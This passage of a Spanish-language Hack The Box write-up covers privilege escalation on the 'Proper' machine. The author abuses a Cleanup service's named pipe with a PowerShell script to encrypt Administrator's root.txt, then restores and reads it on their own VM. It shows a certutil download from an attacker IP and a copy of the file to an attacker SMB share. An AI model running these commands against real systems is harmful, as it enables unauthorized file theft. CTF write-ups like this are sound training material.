Ejecutamos el script:

```powershell
PS c:\Program Files\Cleanup> .\writer.ps1
Put message to send to pipe: CLEAN C:\\Users\Varg\Desktop\aja.txt
```

Recibimos en el servidor un error:

```powershell
c:\Program Files\Cleanup>server.exe
CLEAN C:\\Users\Varg\Desktop\aja.txt
: The filename, directory name, or volume label syntax is incorrect.
```

Lo cual es muy raro porque estamos colocando la ruta que es...

ACÁ me perdí completamente, así que decidí pedir ayuda, ahí apareció [4st1nus](https://twitter.com/4st1nus) (**Gracias de nuevo**).

Me indico que me apoyara de la herramienta [IO Ninja](https://ioninja.com/) para ver los procesos que hace el **pipe**, pero siguiendo la propia descripción de la web es:

> **IO Ninja** is a professional, scriptable, multi-purpose terminal emulator, sniffer, and protocol analyzer. It's aimed at network security experts, system administrators, and all kinds of software/hardware/embedded developers.

Después de descargarla, para cargar el programa lo hacemos así:

* `File` > `New Session` > `Pipe Monitor` > En la parte de arriba hay un **select**, escogemos `File Name` y escribimos la ruta `C:\Program Files\Cleanup\client.exe` > volvemos al **select** y seleccionamos `None` > `Apply Filter` > `Capture`.
* (Hacemos lo mismo para el binario `server.exe`).

Y procedemos a ejecutar de nuevo nuestro script, (probé otra cosa para saber que todo fuera oki y en donde encontramos algo extraño):

```powershell
PS c:\Program Files\Cleanup> .\writer.ps1
Put message to send to pipe: CLEAN hola
```

Y en el **IO Ninja** vemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321win_IO_cleanWithDots_fail.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Jmmm, algo extraño es que le agrega **2 puntos** al final de la búsqueda y ese tiene pinta de ser el problema... 

Después de un rato probando otras formas de jugar con el script, llegamos a una idea más pequeña:

```powershell
c:\Program Files\Cleanup>type writer.ps1
```

```powershell
# Nos conectamos al pipe
$pipe = New-Object System.IO.Pipes.NamedPipeClientStream("cleanupPipe");
$pipe.Connect(); 

# Generamos objeto para interactuar con el pipe
$sw = New-Object System.IO.StreamWriter($pipe);
# Indicamos que borre el archivo que habiamos creado antes como prueba
$sw.Write("CLEAN C:\\Users\Varg\Downloads\aja.txt");

# Cerramos objetos
$sw.Dispose(); 
$pipe.Dispose();
```

Lo ejecutamos y obtenemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321win_IO_cleanWithOutDots_fail.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Aparentemente va todo bien, pero en el servidor:

```powershell
c:\Program Files\Cleanup>server.exe
...
CLEAN C:\\Users\Varg\Downloads\aja.tx
open C:\\Users\Varg\Downloads\aja.tx: The system cannot find the file specified.
```

Ahora le quita una letraaaaaaaaaaaaaaaaaa 🤣, pero bueno, acá es más fácil, simplemente agreguémosle una al final de la cadena a ver si la interpreta bien:

```powershell
...
$sw.Write("CLEAN C:\\Users\Varg\Downloads\aja.txt.");
...
```

Y ahora obtenemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321win_IO_cleanWithOutDots_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

```powershell
c:\Program Files\Cleanup>server.exe
...
CLEAN C:\\Users\Varg\Downloads\aja.txt
```

Perfecto, al menos no nos reporta errores, validando si el archivo se borró realmente tenemos:

```powershell
PS C:\Program Files\Cleanup> ls C:\\Users\Varg\Downloads\
PS C:\Program Files\Cleanup> 
```

Listones, y también validemos que se haya generado el archivo encriptado en la ruta `C:\ProgramData\Cleanup`:

```powershell
PS C:\Program Files\Cleanup> dir C:\ProgramData\Cleanup\

    Directory: C:\ProgramData\Cleanup

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          4/9/2021  25:25 PM            120 QzpcVXNlcnNcVmFyZ1xEb3dubG9hZHNcYWphLnR4dA==

PS C:\Program Files\Cleanup> type C:\ProgramData\Cleanup\QzpcVXNlcnNcVmFyZ1xEb3dubG9hZHNcYWphLnR4dA==
1d30bfee9a03a2c8e2c9adb66ce895cf5949e2d2406bf0ec66077fc4fe37f6aefd558f64a636570de0db530327936f35e73638155d8f0b56361cb600
```

Si decodeamos el nombre del archivo obtenemos `C:\\Users\Varg\Downloads\aja.txt`, así que perfecto, ahora hagamos el **restore** a ver como se procesa apoyándonos de **IO Ninja**:

```powershell
PS C:\Program Files\Cleanup> .\client.exe -R C:\\Users\Varg\Downloads\aja.txt
Restoring C:\\Users\Varg\Downloads\aja.txt
PS C:\Program Files\Cleanup> ls C:\ProgramData\Cleanup\
PS C:\Program Files\Cleanup> 
```

Oko, parece que sí, validemos el proceso y si lo dejo en su ruta **nativa**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321win_IO_restorePath_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

OHH, el **restore** ya lo hace con la cadena decodeada, interesante (además de que tenemos `CLEANER` y `RESTORE` para usar en dado caso con nuestro script).

```powershell
PS C:\Program Files\Cleanup> ls C:\\Users\Varg\Downloads\

    Directory: C:\\Users\Varg\Downloads

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          4/9/2021  25:25 PM             16 aja.txt

PS C:\Program Files\Cleanup> type C:\\Users\Varg\Downloads\aja.txt
a vel
```

...

## Extraemos cualquier archivo del sistema [📌](#cleanup-readfiles) {#cleanup-readfiles}

Listoooooones, lo hace correctamente, tenemos un script funcional y sabemos como funciona `CLEANER` y `RESTORE`.

Con esto en mente, ya podríamos ver el path para extraer archivos como **Administrator** y aprovecharnos de ellos para ver su contenido, si aún no lo ves, échale un poco de cabeza a ver como lo harías e.e

Listo, ¿ya lo tienes? Entonces... 

Podemos aprovecharnos para extraer por ejemplo el archivo `root.txt` así:

1. Estando en la máquina víctima subimos nuestro script con la línea `$sw.Write("CLEAN C:\\Users\Administrator\Desktop\root.txt.");`.
2. Ejecutamos y veríamos en la ruta `C:\ProgramData\Cleanup\` el archivo encriptado.
3. Lo tomamos y nos lo pasamos a nuestra VM **Windows**.
4. Lo colocamos en la ruta `C:\ProgramData\Cleanup\`.
5. Aprovechamos el uso del `RESTORE`, le pasamos la ruta `C:\\Users\Administrator\Desktop\root.txt`, como hace la restauración en la ruta original, en teoría regeneraría el archivo en el directorio `C:\\Users\Administrator\Desktop\`.

Démosle...

Subimos script y ejecutamos, con esto generamos el `CLEAN` del archivo `root.txt`:

```powershell
PS C:\\Users\web\Videos> .\certutil.exe -f -urlcache -split http://10.10.14.164:8000/writer.ps1 writer.ps1
PS C:\\Users\web\Videos> type .\writer.ps1
```

```powershell
# Nos conectamos al pipe
$pipe = New-Object System.IO.Pipes.NamedPipeClientStream("cleanupPipe");
$pipe.Connect(); 

# Generamos objeto para interactuar con el pipe
$sw = New-Object System.IO.StreamWriter($pipe);
# Indicamos que borre el archivo
$sw.Write("CLEAN C:\\Users\Administrator\Desktop\root.txt");

# Cerramos objetos
$sw.Dispose(); 
$pipe.Dispose();
```

Ejecutamos y obtenemos el archivo:

```powershell
PS C:\\Users\web\Videos> dir C:\ProgramData\Cleanup\

    Directory: C:\ProgramData\Cleanup

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          4/9/2021  25:25 PM            192 QzpcVXNlcnNcQWRtaW5pc3RyYXRvclxEZXNrdG9wXHJvb3QudHh0
```

Nos lo pasamos a nuestra máquina, podemos hacer uso de la carpeta compartida:

```powershell
PS C:\\Users\web\Videos> copy C:\ProgramData\Cleanup\QzpcVXNlcnNcQWRtaW5pc3RyYXRvclxEZXNrdG9wXHJvb3QudHh0 \\10.10.14.164\smbFolder\QzpcVXNlcnNcQWRtaW5pc3RyYXRvclxEZXNrdG9wXHJvb3QudHh0
```

Listo, ahora nos lo llevamos a la máquina virtual **Windows** y lo metemos en la ruta `C:\ProgramData\Cleanup\`:

```powershell
PS C:\Program Files\Cleanup> ls C:\ProgramData\Cleanup\

    Directory: C:\ProgramData\Cleanup

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          4/9/2021  25:25 AM            192 QzpcVXNlcnNcQWRtaW5pc3RyYXRvclxEZXNrdG9wXHJvb3QudHh0
```

Ahora intentamos restaurarlo, peeeeero antes, validamos que la ruta `C:\\Users\Administrator\Desktop` exista (en mi caso no, la creamos rápidamente):

```powershell
PS C:\Program Files\Cleanup> ls -force c:\\Users

    Directory: C:\\Users

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---         9/28/2020   1:22 PM                Public
d-----         3/29/2021   7:32 PM                Varg

PS C:\Program Files\Cleanup> mkdir C:\\Users\Administrator
PS C:\Program Files\Cleanup> mkdir C:\\Users\Administrator\Desktop
PS C:\Program Files\Cleanup> ls c:\\Users

    Directory: C:\\Users

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          4/9/2021  11:43 AM                Administrator
d-r---         9/28/2020   1:22 PM                Public
d-----         3/29/2021   7:32 PM                Varg

PS C:\Program Files\Cleanup> ls C:\\Users\Administrator\

    Directory: C:\\Users\Administrator

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          4/9/2021  11:43 AM                Desktop
```

Ahora si restauramos:

```powershell
PS C:\Program Files\Cleanup> .\client.exe -R C:\\Users\Administrator\Desktop\root.txt
Restoring C:\\Users\Administrator\Desktop\root.txt
PS C:\Program Files\Cleanup> ls C:\ProgramData\Cleanup\
PS C:\Program Files\Cleanup> ls C:\\Users\Administrator\Desktop\

    Directory: C:\\Users\Administrator\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          4/9/2021  11:44 AM             34 root.txt
```

😮 **:O** :o **o.O** 😲 O.O ohhh...

Y si vemos su contenido:

```powershell
PS C:\Program Files\Cleanup> type C:\\Users\Administrator\Desktop\root.txt
dd355d81...........................74
```

OPAAAAA, pero claro que si!! Tenemos la flag, por lo tanto podemos leer cualquier archivo del sistema como usuario **Administrator** :O Perfectisimo...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321win_root_flag_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Intentando generar una reverse Shell de alguna manera (no se me ocurre como) nos quedamos un buen rato pensando, pero nada, no lo logramos, si lo sabes me cuentas y lo agregamos al writeup de UNAAAAAAAAAAAA!!

Hemos terminadooooowowowowowow.

...

Linda linda liiiiinda máquina. Me gusto bastante el camino para llegar al usuario **web**, fantástico el `race condition` que explotamos para modificar el contenido del archivo `header.inc` inyectando código `PHP` mientras el servidor lo busca, na na na, muy lindo. 

El pensamiento lateral del **privesc** es increíble.

Muchísimas gracias por leerse otro writeup gigante, pero que espero les sirva tanto como a mí. ¡Y como siempre, a seguir rompiendo!!